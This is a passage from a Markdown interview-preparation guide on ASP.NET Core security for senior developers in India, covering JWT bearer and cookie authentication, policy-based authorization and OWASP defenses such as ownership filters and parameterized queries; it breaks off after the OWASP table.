




# 06. Security, Testing & DevOps — Senior Production Engineering (Deep Dive)

> **Target Audience:** Senior Full-Stack & Backend Developers, Module Leads, and Security/DevOps Architects (5–10+ Years Experience) in India preparing for senior technical screening, architecture rounds, and bar-raiser interviews at **TCS, Infosys, Cognizant, Wipro, Accenture, Capgemini, Deloitte, EY, Persistent, Nagarro, EPAM, Wells Fargo, and Walmart Global Tech**.  
> **Philosophy:** Production engineering realities over superficial textbook syntax. Every topic is structured around authentic interview questions, complete with a **30-second senior pitch**, **real-world analogies**, **5–15 line clean production code**, **senior traps & cross-questions**, and **"When to Use What" decision matrices**.

---

# TABLE OF CONTENTS

- [PART 1: AUTHENTICATION, AUTHORIZATION & WEB SECURITY](#part-1-authentication-authorization--web-security)
  - [Section 1: Authentication, JWT & Policy-Based Authorization](#section-1-authentication-jwt--policy-based-authorization)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: Authentication & Authorization](#-simple-use-cases--when-to-use-what-decision-guide-authentication--authorization)
    - [Q1 (TCS / Infosys / Cognizant / Wipro): "What is the difference between Authentication and Authorization in ASP.NET Core Web API? Explain the structure of a JWT, how AddJwtBearer validates it, and why ClockSkew = TimeSpan.Zero is critical."](#q1-tcs--infosys--cognizant--wipro-what-is-the-difference-between-authentication-and-authorization-in-aspnet-core-web-api-explain-the-structure-of-a-jwt-how-addjwtbearer-validates-it-and-why-clockskew--timespanzero-is-critical)
    - [Q2 (Accenture / Capgemini / Deloitte / EY): "Explain Role-Based vs Claims-Based vs Policy-Based Authorization in .NET. How do you implement [Authorize(Policy = "ManagerOnly")] with custom requirements and handlers?"](#q2-accenture--capgemini--deloitte--ey-explain-role-based-vs-claims-based-vs-policy-based-authorization-in-net-how-do-you-implement-authorizepolicy--manageronly-with-custom-requirements-and-handlers)
  - [Section 2: OWASP Top 10 Web API Vulnerabilities in .NET Core](#section-2-owasp-top-10-web-api-vulnerabilities-in-net-core)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: OWASP Top 10 Defenses](#-simple-use-cases--when-to-use-what-decision-guide-owasp-top-10-defenses)
    - [Q3 (Cognizant / Persistent / Nagarro / EPAM): "What is Broken Object-Level Authorization (BOLA / IDOR) and Mass Assignment (Over-Posting) in Web APIs? How do you prevent them in ASP.NET Core using Request DTOs and Tenant ownership verification?"](#q3-cognizant--persistent--nagarro--epam-what-is-broken-object-level-authorization-bola--idor-and-mass-assignment-over-posting-in-web-apis-how-do-you-prevent-them-in-aspnet-core-using-request-dtos-and-tenant-ownership-verification)
    - [Q4 (Wells Fargo / Walmart / Deloitte): "How do you protect ASP.NET Core APIs against SQL Injection (SQLi), Cross-Site Scripting (XSS), and Cross-Site Request Forgery (CSRF)? Why does EF Core FromSqlRaw cause SQLi if misused?"](#q4-wells-fargo--walmart--deloitte-how-do-you-protect-aspnet-core-apis-against-sql-injection-sqli-cross-site-scripting-xss-and-cross-site-request-forgery-csrf-why-does-ef-core-fromsqlraw-cause-sqli-if-misused)
  - [Section 3: CORS & Enterprise Secret Management](#section-3-cors--enterprise-secret-management)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: CORS & Secret Management](#-simple-use-cases--when-to-use-what-decision-guide-cors--secret-management)
    - [Q5 (Infosys / Wipro / TCS / HCL): "What is CORS (Cross-Origin Resource Sharing)? Why does the browser trigger a preflight OPTIONS request, and what is the exact middleware ordering in Program.cs?"](#q5-infosys--wipro--tcs--hcl-what-is-cors-cross-origin-resource-sharing-why-does-the-browser-trigger-a-preflight-options-request-and-what-is-the-exact-middleware-ordering-in-programcs)
    - [Q6 (Persistent / Nagarro / Wells Fargo): "How do you manage application secrets in modern .NET? Explain User Secrets for local dev, Environment Variables in Docker, and Azure Key Vault in production. Why must secrets NEVER be checked into Git?"](#q6-persistent--nagarro--wells-fargo-how-do-you-manage-application-secrets-in-modern-net-explain-user-secrets-for-local-dev-environment-variables-in-docker-and-azure-key-vault-in-production-why-must-secrets-never-be-checked-into-git)
- [PART 2: AUTOMATED TESTING & QUALITY ENGINEERING](#part-2-automated-testing--quality-engineering)
  - [Section 4: Testing Pyramid, xUnit, Mocks & WebApplicationFactory](#section-4-testing-pyramid-xunit-mocks--webapplicationfactory)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: Testing Strategies](#-simple-use-cases--when-to-use-what-decision-guide-testing-strategies)
    - [Q7 (EPAM / Walmart / Wells Fargo): "Explain the Testing Pyramid in .NET. When do you write Unit Tests with xUnit and Moq/NSubstitute versus Integration Tests with WebApplicationFactory<Program> and Testcontainers?"](#q7-epam--walmart--wells-fargo-explain-the-testing-pyramid-in-net-when-do-you-write-unit-tests-with-xunit-and-moqnsubstitute-versus-integration-tests-with-webapplicationfactoryprogram-and-testcontainers)
- [PART 3: CONTAINERIZATION, KUBERNETES & CI/CD PIPELINES](#part-3-containerization-kubernetes--cicd-pipelines)
  - [Section 5: Docker Containerization for .NET APIs](#section-5-docker-containerization-for-net-apis)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: Docker Base Images & Optimization](#-simple-use-cases--when-to-use-what-decision-guide-docker-base-images--optimization)
    - [Q8 (TCS / Cognizant / Capgemini / Nagarro): "Explain the architecture of a Production Multi-Stage Dockerfile for ASP.NET Core. Why separate dotnet build from the aspnet runtime, why run as a non-root user (app), and how do you optimize image size?"](#q8-tcs--cognizant--capgemini--nagarro-explain-the-architecture-of-a-production-multi-stage-dockerfile-for-aspnet-core-why-separate-dotnet-build-from-the-aspnet-runtime-why-run-as-a-non-root-user-app-and-how-do-you-optimize-image-size)
  - [Section 6: CI/CD Pipelines with Azure DevOps & GitHub Actions](#section-6-cicd-pipelines-with-azure-devops--github-actions)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: CI/CD Pipelines & Quality Gates](#-simple-use-cases--when-to-use-what-decision-guide-cicd-pipelines--quality-gates)
    - [Q9 (Accenture / Deloitte / EY / Persistent): "Walk me through an enterprise CI/CD Pipeline for .NET APIs using Azure DevOps (azure-pipelines.yml) or GitHub Actions. How do you integrate automated unit/integration tests and a SonarQube quality gate before production deployment?"](#q9-accenture--deloitte--ey--persistent-walk-me-through-an-enterprise-cicd-pipeline-for-net-apis-using-azure-devops-azure-pipelinesyml-or-github-actions-how-do-you-integrate-automated-unitintegration-tests-and-a-sonarqube-quality-gate-before-production-deployment)
  - [Section 7: Kubernetes Fundamentals & Health Probes](#section-7-kubernetes-fundamentals--health-probes)
    - [🎯 Simple Use Cases & "When to Use What" Decision Guide: Kubernetes Workloads & Networking](#-simple-use-cases--when-to-use-what-decision-guide-kubernetes-workloads--networking)
    - [Q10 (Wells Fargo / Walmart / EPAM / Nagarro): "Explain core Kubernetes fundamentals for .NET developers: Pods vs Deployments, Services (ClusterIP vs NodePort vs LoadBalancer), Ingress, ConfigMaps vs Secrets, and Liveness vs Readiness probes."](#q10-wells-fargo--walmart--epam--nagarro-explain-core-kubernetes-fundamentals-for-net-developers-pods-vs-deployments-services-clusterip-vs-nodeport-vs-loadbalancer-ingress-configmaps-vs-secrets-and-liveness-vs-readiness-probes)
- [PART 4: ADVANCED ARCHITECTURAL REFERENCE & PRODUCTION MECHANICS](#part-4-advanced-architectural-reference--production-mechanics)
  - [1. Proof Key for Code Exchange (PKCE) for Single Page Applications (RFC 7636)](#1-proof-key-for-code-exchange-pkce-for-single-page-applications-rfc-7636)
  - [2. Symmetric (HS256) vs. Asymmetric (RS256) Signing & JWKS Key Rotation](#2-symmetric-hs256-vs-asymmetric-rs256-signing--jwks-key-rotation)
  - [3. Stateless JWT Revocation & Token Family Rotation (RFC 6819)](#3-stateless-jwt-revocation--token-family-rotation-rfc-6819)
  - [4. High-Speed Database Resets with Respawn for Integration Tests](#4-high-speed-database-resets-with-respawn-for-integration-tests)
  - [5. Kubernetes Cascading Restart Storm Prevention & Probes Architecture](#5-kubernetes-cascading-restart-storm-prevention--probes-architecture)
  - [6. Blue-Green, Canary Deployments & Expand-and-Contract Migrations](#6-blue-green-canary-deployments--expand-and-contract-migrations)
  - [7. Senior Code Review Checklist & Mentorship Rubric](#7-senior-code-review-checklist--mentorship-rubric)

---

# PART 1: AUTHENTICATION, AUTHORIZATION & WEB SECURITY

## Section 1: Authentication, JWT & Policy-Based Authorization

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: Authentication & Authorization

| Trigger / Requirement / Scenario | What to Use | Why / Trade-offs | What Must Be Done (Action Steps & Snippet) |
| :--- | :--- | :--- | :--- |
| **Single Page Applications (Angular/React), Mobile clients, or distributed REST microservices** | **JWT Bearer Authentication (`AddJwtBearer`)** | **Pros:** Stateless; decentralized signature verification via public JWKS; high horizontal scalability.<br>**Cons:** Revocation before expiration requires Redis blocklists; token size overhead. | Register `AddJwtBearer()` in `Program.cs` specifying `Authority`, `Audience`, and `ClockSkew = TimeSpan.Zero`. |
| **Server-rendered apps (Razor Pages, MVC, Blazor Server) or Backend-For-Frontend (BFF)** | **Secure Cookie Authentication (`AddCookie`)** | **Pros:** Immune to XSS token theft via `HttpOnly`; automatic browser cookie management.<br>**Cons:** Susceptible to CSRF (requires Anti-Forgery tokens & `SameSite=Strict`); stateful session management. | Register `AddCookie()` with `HttpOnly = true`, `SameSite = SameSiteMode.Strict`, and `SecurePolicy = Always`. |
| **B2B partner integrations, external developer Webhooks, or server-to-server daemon APIs** | **API Key Authentication (Custom Header Scheme)** | **Pros:** Zero OAuth2 handshake latency; simple onboarding for third-party consumers.<br>**Cons:** High blast radius if leaked; must support instant hashing (SHA-256) and rotation. | Create custom authentication handler extracting `X-Api-Key` and validating against hashed DB records using constant-time comparison. |
| **Machine-to-Machine (M2M) automated daemons, cron microservices, or ETL worker sync** | **OAuth2 Client Credentials Grant** | **Pros:** Secure server-to-server authorization without end-user credentials; scoped short-lived tokens.<br>**Cons:** Requires secure secret storage for `client_secret` in Azure Key Vault / K8s Secrets. | Exchange `client_id` + `client_secret` at IDP `/token` endpoint using `HttpClient` to acquire a bearer access token. |
| **Coarse-grained role access ("Admin", "Manager", "Auditor")** | **Role-Based Authorization (`[Authorize(Roles = "...")]`)** | **Pros:** Familiar, fast to implement.<br>**Cons:** Rigid; hardcodes role strings in controllers; cannot evaluate fine-grained tenant or numeric limits. | Decorate controller actions with `[Authorize(Roles = "Admin,Manager")]` or map roles in JWT claims. |
| **Fine-grained business rules (e.g., minimum age, department, specific subscription tier)** | **Policy-Based Authorization (`[Authorize(Policy = "...")]`)** | **Pros:** Decouples controller routing from business rules; testable; extensible via `IAuthorizationRequirement`. | Define `AuthorizationPolicyBuilder`, register policy with requirements, and implement `AuthorizationHandler<T>`. |
| **Data entity ownership (e.g., user can only edit their own bank account or invoices)** | **Resource-Based Authorization (`IAuthorizationService`)** | **Pros:** Imperatively evaluates the target data record alongside user claims at runtime.<br>**Cons:** Cannot be evaluated solely via declarative attributes; must be invoked in controller. | Inject `IAuthorizationService`, fetch entity, and call `await authService.AuthorizeAsync(User, entity, requirement)`. |

#### 1. Minimal JWT Bearer Setup in `Program.cs` (C#)
```csharp
// Minimal, production-hardened JWT Bearer configuration
builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.Authority = "https://identity.enterprise.com";
        options.Audience = "api://finance-service";
        options.TokenValidationParameters = new()
        {
            ValidateIssuer = true,
            ValidIssuer = "https://identity.enterprise.com",
            ValidateAudience = true,
            ValidAudience = "api://finance-service",
            ValidateLifetime = true,
            ClockSkew = TimeSpan.Zero // Critical: eliminate default 5-minute grace period!
        };
    });
```

#### 2. Minimal Policy-Based Authorization Setup in `Program.cs` (C#)
```csharp
// Decoupled policy definition in Program.cs
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("ManagerOnly", policy =>
        policy.RequireRole("Manager")
              .RequireClaim("Department", "Finance", "Operations")
              .RequireClaim("Scope", "transactions.approve"));
});
```

#### 3. Minimal Secure Cookie Setup (BFF Pattern) (C#)
```csharp
// Hardened cookie configuration shielding against XSS and CSRF
builder.Services.AddAuthentication(CookieAuthenticationDefaults.AuthenticationScheme)
    .AddCookie(options =>
    {
        options.Cookie.HttpOnly = true;             // Shield from JavaScript access (anti-XSS)
        options.Cookie.SameSite = SameSiteMode.Strict; // Shield from cross-site forged requests (anti-CSRF)
        options.Cookie.SecurePolicy = CookieSecurePolicy.Always; // HTTPS only
        options.ExpireTimeSpan = TimeSpan.FromHours(8);
        options.SlidingExpiration = true;
    });
```

#### 4. Minimal Resource-Based Authorization Check (C#)
```csharp
// Imperative check: ensures current user owns the target invoice
[HttpGet("api/invoices/{id:guid}")]
public async Task<IActionResult> GetInvoice(Guid id, [FromServices] IAuthorizationService authService)
{
    var invoice = await _db.Invoices.FindAsync(id);
    if (invoice == null) return NotFound();

    var result = await authService.AuthorizeAsync(User, invoice, "InvoiceOwnerPolicy");
    return result.Succeeded ? Ok(invoice) : Forbid();
}
```

---

### Q1 (TCS / Infosys / Cognizant / Wipro): "What is the difference between Authentication and Authorization in ASP.NET Core Web API? Explain the structure of a JWT, how AddJwtBearer validates it, and why ClockSkew = TimeSpan.Zero is critical."

* **Why Interviewers Ask It:** Every Indian service and product enterprise uses ASP.NET Core Web APIs protected by JWTs. Interviewers test whether you truly understand cryptographic token validation, middleware pipeline mechanics, and security defaults, or if you simply copy-paste code from StackOverflow.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "Authentication answers *'Who are you?'* by cryptographically validating credentials (e.g. verifying a JWT signature and hydrating `HttpContext.User`), while Authorization answers *'What are you permitted to do?'* by evaluating permissions and policies against those authenticated claims. A JWT is a Base64URL-encoded container with three parts: **Header** (algorithm, key ID), **Payload** (claims like `sub`, `iss`, `aud`, `exp`), and **Signature** (`HMACSHA256` or `RS256`). ASP.NET Core's `AddJwtBearer` validates these parts against the Identity Provider's JWKS. Setting `ClockSkew = TimeSpan.Zero` is critical because Microsoft's default adds a **5-minute grace period**, allowing expired tokens to remain valid for 300 extra seconds after revocation or expiration."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Authentication (AuthN) is the cryptographic verification of an entity's claimed digital identity, whereas Authorization (AuthZ) is the policy-based evaluation determining whether an authenticated identity has permission to perform a requested action on a target resource. A JSON Web Token (RFC 7519) is a compact, URL-safe, digitally signed claims container consisting of a JOSE Header, a Claims Payload, and a Cryptographic Signature. ClockSkew is the runtime tolerance allowance for clock drift between identity provider and API, which defaults to 5 minutes in Microsoft.AspNetCore.Authentication.JwtBearer and must be set to TimeSpan.Zero to eliminate expired token vulnerabilities."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **RFC 7519 JSON Web Token:** Standard defining compact, URL-safe container format for claims.
    * **JOSE Header (alg, kid, typ):** JSON Object Signing and Encryption metadata defining the signing algorithm and Key ID.
    * **Registered Claims (iss, aud, exp, nbf, sub):** Standardized JWT claims specifying issuer, audience, expiration time, not-before time, and subject.
    * **Cryptographic Signature (RS256 / HS256):** Digital signature verifying token integrity and non-repudiation using asymmetric RSA public/private key pairs or symmetric shared secrets.
    * **JWKS (JSON Web Key Set / RFC 7517):** Identity Provider endpoint (/.well-known/jwks.json) publishing public keys used by APIs to validate signatures dynamically.
    * **TokenValidationParameters.ClockSkew = TimeSpan.Zero:** Explicit configuration eliminating the default 5-minute grace period that allows expired tokens to access APIs.
    * **ClaimsPrincipal & ClaimsIdentity:** .NET runtime security models populated by UseAuthentication() and inspected by UseAuthorization().
    * **Middleware Ordering:** Mandatory sequence in Program.cs: UseRouting() -> UseAuthentication() -> UseAuthorization() -> UseEndpoints().
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"In our banking microservices, we configure AddJwtBearer with asymmetric RS256 token validation against Keycloak's JWKS endpoint. We explicitly set ClockSkew = TimeSpan.Zero to eliminate the 5-minute security loophole where revoked or expired tokens can otherwise still access APIs."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **Authentication:** Showing your Government Passport and boarding pass at airport security. The officer verifies the biometric hologram and confirms your identity.
  * **Authorization:** When boarding the flight, the gate agent checks if your ticket is for Business Class or Economy. You are undeniably *authenticated* as a passenger, but you are not *authorized* to sit in the cockpit or enter the First-Class lounge.
  * **ClockSkew:** If your flight boarding gate closes strictly at 10:00 AM, but the gate agent gives everyone an unwritten 5-minute leeway until 10:05 AM, unauthorized passengers who arrived late can still sneak aboard. `ClockSkew = TimeSpan.Zero` locks the gate at exactly 10:00:00 AM.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// Program.cs - Production JWT Bearer Authentication with Zero Clock Skew
builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.Authority = "https://identity.bank.com";
        options.Audience = "api://payment-gateway";
        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuer = true,
            ValidIssuer = "https://identity.bank.com",
            ValidateAudience = true,
            ValidAudience = "api://payment-gateway",
            ValidateLifetime = true,
            ClockSkew = TimeSpan.Zero, // ELIMINATE 5-minute expired token loophole!
            ValidateIssuerSigningKey = true
        };
    });
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Believing that because a JWT is Base64URL encoded, its contents are private or encrypted. Anyone can paste a JWT into `jwt.io` and view every claim in plaintext! Never put passwords, Aadhaar/SSN numbers, or raw credit cards in a JWT payload.
  * **Interviewer Cross-Question:** *"What happens if `UseAuthorization()` is placed BEFORE `UseAuthentication()` in `Program.cs`?"*
  * **Senior Answer:** *"The request will be immediately rejected with HTTP 401 Unauthorized or bypass authorization entirely depending on endpoint defaults, because `UseAuthorization` executes before `HttpContext.User` has been hydrated by `UseAuthentication()`. ASP.NET Core middleware executes strictly sequentially: `UseRouting()` -> `UseAuthentication()` -> `UseAuthorization()` -> `UseEndpoints()`."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Scenario | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Strict Expiry Enforcement (FinTech / Banking)** | `ClockSkew = TimeSpan.Zero` | Eliminates the default 5-minute grace period where expired tokens work. | Set in `TokenValidationParameters { ClockSkew = TimeSpan.Zero };` |
| **Multi-Service Microservices Mesh** | **Asymmetric RS256 with JWKS** | Only IDP holds private key; APIs only verify public keys. No shared secrets. | Set `options.Authority = "https://idp.com"`; dynamic JWKS caching handles keys. |
| **Reading Claims in Controller** | `User.FindFirstValue("tenant_id")` | Clean, strongly-typed helper on `ClaimsPrincipal`. | `var tenant = User.FindFirstValue("tenant_id");` |

---

### Q2 (Accenture / Capgemini / Deloitte / EY): "Explain Role-Based vs Claims-Based vs Policy-Based Authorization in .NET. How do you implement [Authorize(Policy = "ManagerOnly")] with custom requirements and handlers?"

* **Why Interviewers Ask It:** Enterprise systems evolve rapidly. Hardcoding role strings like `[Authorize(Roles = "Admin,SuperAdmin")]` creates brittle legacy code that breaks whenever organizational hierarchies change. Interviewers want to verify you know how to architect decoupled, policy-based requirements.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "Role-Based authorization checks static strings (`User.IsInRole("Manager")`), which tightly couples code to directory roles. Claims-Based authorization checks individual key-value identity assertions (e.g., `Department = Finance`). **Policy-Based authorization** is the modern .NET standard that abstracts these into reusable requirements (`IAuthorizationRequirement`) evaluated by dedicated handlers (`AuthorizationHandler<T>`). This allows composing complex rules—such as requiring a specific role, department, working hours, and multi-factor authentication—behind a single clean attribute: `[Authorize(Policy = "ManagerOnly")]`."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Role-Based Access Control (RBAC) evaluates static string memberships (IsInRole), creating brittle coupling to organizational titles. Claims-Based Authorization inspects discrete attribute key-value pairs issued by an authority. Policy-Based Authorization is ASP.NET Core's extensible specification architecture decoupling authorization requirements (IAuthorizationRequirement) and business handlers (AuthorizationHandler<T>) from routing attributes, evaluating multi-attribute contextual logic at runtime."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Decoupled Policy Architecture:** Separating authorization rule declarations in controllers from their evaluation logic in handlers.
    * **IAuthorizationRequirement:** Marker interface representing the business specification being evaluated.
    * **AuthorizationHandler<TRequirement>:** Execution unit containing business logic that inspects context.User and invokes context.Succeed(requirement).
    * **context.Succeed() vs context.Fail():** context.Succeed() marks a requirement met; calling context.Fail() immediately guarantees access denial regardless of other handlers.
    * **Imperative Resource-Based Authorization:** Injecting IAuthorizationService to evaluate entity ownership dynamically at runtime alongside user claims.
    * **Fine-Grained Attribute-Based Access Control (ABAC):** Evaluating dynamic user attributes, environment factors (time/IP), and resource attributes simultaneously.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"We eliminated hardcoded roles across our microservices by implementing custom Policy-Based authorization handlers in .NET. Our handlers evaluate dynamic business criteria—such as checking that the user's branch ID claim matches the invoice's branch ID and that their single-transaction approval limit exceeds the order total."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **Role-Based:** A bouncer checking if your badge says "VIP". If the nightclub renames "VIP" to "Executive Guest", the bouncer denies entry until uniforms are re-stitched.
  * **Claims-Based:** Checking individual items on your driver's license: "Blood Type: O+", "Organ Donor: Yes", "Eye Color: Brown".
  * **Policy-Based:** An airport security gate policy: "Passenger must hold a valid boarding pass for today's date, have passed biometric facial recognition, and have zero active customs flags." The gate checks multiple requirements dynamically.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// 1. Define Requirement & Handler
public record ManagerOnlyRequirement(int MinYearsTenure) : IAuthorizationRequirement;

public class ManagerOnlyHandler : AuthorizationHandler<ManagerOnlyRequirement>
{
    protected override Task HandleRequirementAsync(AuthorizationHandlerContext ctx, ManagerOnlyRequirement req)
    {
        var isManager = ctx.User.IsInRole("Manager");
        var tenure = int.TryParse(ctx.User.FindFirst("tenure_years")?.Value, out var y) ? y : 0;
        
        if (isManager && tenure >= req.MinYearsTenure) ctx.Succeed(req);
        return Task.CompletedTask;
    }
}

// 2. Program.cs Registration & Controller Usage
builder.Services.AddSingleton<IAuthorizationHandler, ManagerOnlyHandler>();
builder.Services.AddAuthorization(o => o.AddPolicy("ManagerOnly", p => p.AddRequirements(new ManagerOnlyRequirement(2))));

[Authorize(Policy = "ManagerOnly")]
[HttpPost("api/v1/bonuses/approve")]
public IActionResult ApproveBonus() => Ok("Bonus Approved!");
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Calling `context.Fail()` inside an authorization handler when a requirement isn't satisfied. In ASP.NET Core, if you have multiple handlers (e.g. EmployeeHandler OR ContractorHandler), returning without calling `context.Succeed()` allows other handlers to evaluate. But calling `context.Fail()` short-circuits the pipeline and denies access regardless of other handlers!
  * **Interviewer Cross-Question:** *"How do you test this policy in unit tests without spinning up a full HTTP server?"*
  * **Senior Answer:** *"Because `AuthorizationHandler<T>` inherits from a simple class with `HandleRequirementAsync`, we can instantiate `ManagerOnlyHandler` directly in xUnit, construct a mock `AuthorizationHandlerContext` with custom `ClaimsPrincipal` fixtures, invoke the method, and assert `context.HasSucceeded`."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Scenario | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Simple Admin vs User screens** | `[Authorize(Roles = "Admin")]` | Fast and simple for small internal tools. | Decorate controller or endpoint with role attribute. |
| **Cross-cutting rules (Roles + Claims + Limits)** | Policy-Based (`[Authorize(Policy = "...")]`) | Clean separation of authorization concerns from routing. | Implement `IAuthorizationRequirement` + `AuthorizationHandler<T>`. |
| **Per-Entity checks (User owns Order #42)** | Imperative Resource-Based (`IAuthorizationService`) | Evaluates business rules against the live database entity. | Inject `IAuthorizationService` and call `AuthorizeAsync(User, resource, policy)`. |

---

## Section 2: OWASP Top 10 Web API Vulnerabilities in .NET Core

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: OWASP Top 10 Defenses

| Vulnerability (OWASP Top 10) | Root Cause | Primary .NET Defense | What Must Be Done (Action Steps & Snippet) |
| :--- | :--- | :--- | :--- |
| **BOLA / IDOR (Broken Object-Level Authorization)** | Relying solely on client-supplied ID parameters without checking if requesting user owns the object. | Enforce database tenant / user ownership filter on every single lookup query. | `var order = await _db.Orders.FirstOrDefaultAsync(o => o.Id == id && o.TenantId == currentTenantId);` |
| **Mass Assignment / Over-Posting** | Binding incoming HTTP JSON payload directly to database entity models (e.g. `User` entity with `IsAdmin`, `Balance`). | Use strict, purpose-built Request DTOs and manual/AutoMapper mapping. Never bind entities! | Define `public record UpdateProfileRequest(string DisplayName, string Bio);` and bind only DTO. |
| **SQL Injection (SQLi)** | Concatenating untrusted user input directly into dynamic SQL query strings. | Use LINQ or `FromSqlInterpolated` which creates parameterized `DbParameter` instances. | Replace `FromSqlRaw($"... {input}")` with `FromSqlInterpolated($"SELECT * FROM Users WHERE Email = {input}")`. |
| **Cross-Site Scripting (XSS)** | Echoing unsanitized user-supplied HTML/JS into client browser DOM. | Context-aware HTML encoding via `HtmlEncoder.Default` or server sanitization via `HtmlSanitizer`. | Use `HtmlEncoder.Default.Encode(input)` before rendering or store sanitized markdown. |
